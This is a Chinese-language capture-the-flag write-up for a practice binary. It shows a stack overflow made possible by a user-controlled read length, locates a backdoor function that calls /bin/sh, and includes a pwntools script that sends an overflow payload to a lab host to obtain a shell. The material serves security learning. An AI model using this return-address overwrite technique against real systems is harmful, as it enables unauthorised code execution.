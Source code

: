 # 题目

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744620167891-15eea2d5-7f77-427f-84a3-162e8205c005.png)

# 做法

开虚拟机checksec

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744620126777-1d4ded16-1fd5-4a19-9914-cfd8e155b54c.png)

64位，没开栈保护

扔进IDA（64位），找到main，F5反编译

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744620251066-7defbbc3-a544-4388-836f-0d516503c036.png)

没啥东西，点进buf看看（同时注意第8行的nbytes，下面要用到）

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744620288539-749e1044-2a02-48f0-a241-fae13f59c9cf.png)

栈溢出吗？不管了，先数为敬，offset=16-4+8（dq=8）+8-4=24

（注：buf读入的数据长度由我们输入的nbytes来控制，所以这里可以利用它来溢出，

原本的大小为0，没得读，只有我们为其赋值，我们写入的东西才能让他读（第8行和第18行代码））

然后找找后门函数

Shift+F12，看看有啥东西可用

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744620474606-f4630d77-a449-46dd-b268-e9a353b228ff.png)

一个system，一个/bin/sh

system点进去没东西

/bin/sh点进去，发现后门函数

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744620462935-7ca975f0-3da8-4183-9077-b74a6e4c4874.png)

exp

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744628620778-85331f88-973c-4b41-9150-a67a3d0a010d.png)

代码如下

```
#导入pwntools模块：
from pwn import *

#和靶机进行连接：
r = remote("node5.buuoj.cn",29658)

#给nbytes赋值（给值相对大点，太小不行，至少给offset和其原本就有的数据预留点位置）
r.sendline('50')

#定义 payload
payload = b'a' * 24 + p64(0x4006E6)

#发送payload
r.sendline(payload)

#获取靶机交互式终端：
r.interactive()
```

常规，得出flag

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744628576835-f7754c2f-c2e8-44bf-908c-dda1761a3660.png)

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744628585644-681c0551-f384-42f9-b0de-f151dd14e686.png)

# 更新

于2025.4.14